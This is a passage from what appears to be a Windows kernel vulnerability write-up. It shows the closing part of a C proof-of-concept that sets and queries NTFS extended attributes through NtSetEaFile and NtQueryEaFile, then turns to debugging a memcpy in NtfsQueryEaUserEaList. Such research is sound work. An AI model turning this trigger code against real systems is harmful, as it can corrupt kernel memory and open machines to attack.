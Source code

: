 ```c
        free(eaBuffer1);
        free(eaBuffer2);
        CloseHandle(hFile);
        return 0;
    }
    

    printf("Extended attribute set successfully\n");
    return 1;
}


int main() {
    // Load ntdll.dll and get the addresses of the functions
    HMODULE ntdll = LoadLibraryA("ntdll.dll");
    if (!ntdll) {
        printf("Error loading ntdll.dll\n");
        return 1;
    }

    NtSetEaFile_t NtSetEaFile = (NtSetEaFile_t)GetProcAddress(ntdll, "NtSetEaFile");
    NtQueryEaFile_t NtQueryEaFile = (NtQueryEaFile_t)GetProcAddress(ntdll, "NtQueryEaFile");

    if (!NtSetEaFile || !NtQueryEaFile) {
        printf("Error finding NtSetEaFile or NtQueryEaFile\n");
        return 1;
    }

    // File to set/query extended attributes
    const char* fileName = "example.txt";
    HANDLE hFile = CreateFileA(fileName, GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_FLAG_BACKUP_SEMANTICS, NULL);
    if (hFile == INVALID_HANDLE_VALUE) {
        printf("Error opening file: %lu\n", GetLastError());
        return 1;
    }

    set_extended_attributes(hFile, NtSetEaFile);

    printf("[>] Continue to do a NtQueryEaFile? > ");
    getchar();

    query_extended_attributes(hFile, NtQueryEaFile);

    CloseHandle(hFile);
    return 0;
}
```


Setting a breakpoint before the `memcpy` happens within `NtfsQueryEaUserEaList` and after the breakpoint got hit brings us this state:
